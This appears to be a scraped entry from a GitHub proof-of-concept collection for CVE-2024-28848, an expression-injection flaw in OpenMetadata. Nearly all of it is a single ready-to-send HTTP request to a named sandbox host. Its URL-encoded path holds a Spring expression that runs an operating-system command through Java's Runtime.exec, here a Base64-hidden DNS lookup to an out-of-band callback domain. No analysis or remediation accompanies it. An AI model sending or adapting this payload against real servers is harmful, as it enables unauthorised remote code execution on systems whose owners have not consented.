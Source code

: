 # OpenMetadata_policies_spel

from: https://github.com/wy876/POC/blob/main/OpenMetadata-SpEL%E6%B3%A8%E5%85%A5(CVE-2024-28848).md
2024.5.6 @2

```
GET /api/v1/policies/validation/condition/%54%28%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%29%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%6e%65%77%20%6a%61%76%61%2e%6c%61%6e%67%2e%53%74%72%69%6e%67%28%54%28%6a%61%76%61%2e%75%74%69%6c%2e%42%61%73%65%36%34%29%2e%67%65%74%44%65%63%6f%64%65%72%28%29%2e%64%65%63%6f%64%65%28%22%62%6e%4e%73%62%32%39%72%64%58%41%67%61%58%70%73%4e%7a%45%33%62%33%42%69%62%57%52%79%5a%57%46%6f%61%33%4a%6f%63%44%4e%72%63%32%70%72%61%47%4a%75%4d%6d%4a%7a%65%6d%67%75%62%32%46%7a%64%47%6c%6d%65%53%35%6a%62%32%30%3d%22%29%29%29 HTTP/2
Host: sandbox.open-metadata.org
Authorization: Bearer <non-admin JWT>

```
